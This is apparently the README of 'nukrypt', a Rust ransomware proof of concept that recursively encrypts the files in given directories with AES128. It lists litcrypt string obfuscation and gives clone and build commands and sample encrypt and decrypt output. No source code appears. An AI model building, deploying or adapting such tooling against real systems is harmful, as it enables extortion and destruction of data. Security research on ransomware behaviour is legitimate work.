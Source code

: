nukrypt
=======
A simple ransomware PoC written in Rust. `nukrypt` will recursively traverse all directories given to it as CLI arguments and encrypt files using AES128. The 128-bit key is generated at runtime and dropped at the current working directory. The AES IV is written to the beginning of each encrypted file. Encrypted files are suffixed with `.nukrypt`.


Features
--------
- AES128
- Literal encryption using [litcrypt](https://docs.rs/litcrypt/latest/litcrypt/)
- Some safeguards to prevent unintended data loss.


Compilation
-----------
- Simply `git clone` the repository and `cargo build` the project:
```
$ git clone https://github.com/hiatus/nukrypt
$ cd nukrypt
$ cargo build --release
```


Usage
-----
```
nukrypt [encrypt|decrypt] [dir]..
```

### Encrypt
When called with `encrypt`, `nukrypt` will first generate a 128-bit key and write it to a file called `nukrypt.key` at the current working directory; if this file already exists, the program will safely exit. After key generation, all `dir`s will be recursively encrypted.

```
$ nukrypt encrypt ./encrypt-me/
[+] Encryption key saved to nukrypt.key

[#] Encrypting: ./encrypt-me/notes.txt
[#] Encrypting: ./encrypt-me/project/curriculum.pdf
[#] Encrypting: ./encrypt-me/project/accounting.xlsx

[+] 3 files encrypted in 0.002 seconds
```

### Decrypt
When called with `decrypt`, `nukrypt` will attempt to read the key from the `nukrypt.key` file in the current working directory and recursively decrypt all `dir`s.
```
$ nukrypt decrypt ./encrypt-me/
[#] Decrypting: ./encrypt-me/notes.txt.nukrypt
[#] Decrypting: ./encrypt-me/project/curriculum.pdf.nukrypt
[#] Decrypting: ./encrypt-me/project/accounting.xlsx.nukrypt

[+] 3 files decrypted in 0.000 seconds
```